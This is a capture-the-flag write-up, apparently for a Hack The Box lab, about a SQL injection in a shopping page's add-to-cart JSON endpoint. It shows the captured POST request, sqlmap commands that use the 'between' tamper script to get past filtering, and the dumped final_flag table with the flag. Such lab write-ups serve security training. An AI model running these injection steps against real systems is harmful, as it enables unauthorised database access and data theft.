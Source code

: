 ## Challenge

What's the contents of table final_flag? 

## Solution

The page is an online shopping page.

After surfing on the page, I saw that most of the functions only lead to a form's action set to `#`, so nothing to do there.

But, on the shop, when I click on add to cart, I have a JS alarm saying `Item added`.

Let's check this on Burp.

```http
POST /action.php HTTP/1.1
Host: 94.237.59.180:43271
Content-Length: 8
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://94.237.59.180:43271
Referer: http://94.237.59.180:43271/shop.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"id":1}
```

So here I see that it is JSON, and a `POST` request, which I will save to a file.

I tried with the following:

```sh
python3 sqlmap.py -r ../../final_case.txt -p id --dump
```

which didn't produce any results.

I added the tamper script between:

```sh
python3 sqlmap.py -r ../../final_case.txt -p id --tamper=between --dump
```

and it started giving me information, and I got the table name which is `final_flag` and the database name `production`

I added this information to the options of SQLMap:

```sh
python3 sqlmap.py -r ../../final_case.txt -p id --tamper=between --dump -T final_flag
```

And the result is:

```sh
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```


